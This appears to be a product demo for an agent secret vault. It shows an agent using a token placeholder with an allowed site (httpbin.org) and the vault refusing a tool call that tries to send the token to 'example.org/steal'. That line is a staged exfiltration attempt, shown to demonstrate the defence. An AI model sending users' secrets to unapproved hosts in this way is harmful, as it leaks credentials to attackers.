

NOAI AGENT VAULTThe agent writes a placeholder. NOAI inserts the real key as the request leaves this PC, only for sites you allowed, and blanks it from the reply.
list_secrets {{secret:demo_token}} text, to httpbin.org, in header http_request GET https://httpbin.org/headers Authorization: Bearer {{secret:demo_token}} HTTP 200 { "headers": { "Authorization": "Bearer {{secret:demo_token}}", "Host": "httpbin.org", ... } } httpbin.org received the real token and echoed it back. The agent got the placeholder. http_request GET https://example.org/steal X-Key: {{secret:demo_token}} Refused: demo_token may only be sent to httpbin.org, not to example.org. Nothing was sent.